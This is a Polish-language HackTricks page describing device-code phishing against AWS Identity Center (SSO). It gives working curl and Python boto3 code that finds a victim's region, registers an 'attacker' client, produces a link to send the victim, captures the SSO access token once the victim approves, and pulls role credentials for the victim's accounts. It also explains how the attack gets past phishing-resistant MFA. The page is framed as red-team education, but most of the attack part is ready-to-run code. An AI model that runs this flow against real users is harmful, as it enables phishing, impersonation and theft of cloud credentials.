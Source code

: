 # AWS - Centrum tożsamości i jednolite logowanie (SSO) - Nieuwierzytelniona enumeracja

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Phishing kodu urządzenia AWS

Początkowo zaproponowane w [**tym wpisie na blogu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), jest możliwe wysłanie **linku** do użytkownika korzystającego z AWS SSO, który jeśli **użytkownik zaakceptuje**, atakujący będzie mógł uzyskać **token do podszywania się pod użytkownika** i uzyskać dostęp do wszystkich ról, do których użytkownik ma dostęp w **Centrum tożsamości**.

Aby przeprowadzić ten atak, wymagane są:

* Ofiara musi korzystać z **Centrum tożsamości**
* Atakujący musi znać **poddomenę** używaną przez ofiarę `<victimsub>.awsapps.com/start`

Tylko z tymi informacjami **atakujący będzie w stanie wysłać link do użytkownika**, który jeśli **zaakceptowany** umożliwi **atakującemu dostęp do konta użytkownika AWS**.

### Atak

1. **Znalezienie poddomeny**

Pierwszym krokiem atakującego jest znalezienie poddomeny, którą firma ofiary używa w swoim Centrum tożsamości. Można to zrobić za pomocą **OSINT** lub **zgadywania + BF**, ponieważ większość firm będzie używać swojej nazwy lub jej wariacji tutaj.

Dzięki tym informacjom możliwe jest uzyskanie regionu, w którym zostało skonfigurowane Centrum tożsamości:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Wygeneruj link dla ofiary i wyślij go**

Uruchom poniższy kod, aby wygenerować link logowania AWS SSO, dzięki któremu ofiara będzie mogła się uwierzytelnić.\
W celu demonstracji uruchom ten kod w konsoli Pythona i nie zamykaj jej, ponieważ później będziesz potrzebować pewnych obiektów do uzyskania tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Poczekaj, aż ofiara zaakceptuje**

Jeśli ofiara **już jest zalogowana w AWS**, wystarczy, że zaakceptuje udzielenie uprawnień, jeśli nie, będzie musiała **zalogować się, a następnie zaakceptować udzielenie uprawnień**.\
Tak teraz wygląda okno dialogowe:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Uzyskaj token dostępu SSO**

Jeśli ofiara zaakceptowała okno dialogowe, uruchom ten kod, aby **wygenerować token dostępu SSO podając się za użytkownika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Token SSO jest **ważny przez 8 godzin**.

5. **Podszyj się pod użytkownika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing niemożliwego do wyłudzenia MFA

To zabawne, że poprzedni atak **działa nawet jeśli używane jest "niemożliwe do wyłudzenia MFA" (webAuth)**. Dzieje się tak, ponieważ poprzedni **przepływ pracy nigdy nie opuszcza używanej domeny OAuth**. W przeciwieństwie do innych ataków phishingowych, gdzie użytkownik musi podmienić domenę logowania, w przypadku przepływu kodu urządzenia przygotowany jest tak, że **kod jest znany przez urządzenie**, a użytkownik może zalogować się nawet na innym urządzeniu. Jeśli zaakceptowany zostanie monit, urządzenie, znając **początkowy kod**, będzie w stanie **pobrać dane uwierzytelniające** dla użytkownika.

Aby uzyskać więcej informacji, [**sprawdź ten post**](https://mjg59.dreamwidth.org/62175.html).

### Automatyczne narzędzia

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Odnośniki

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Zdobądź wiedzę na temat hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
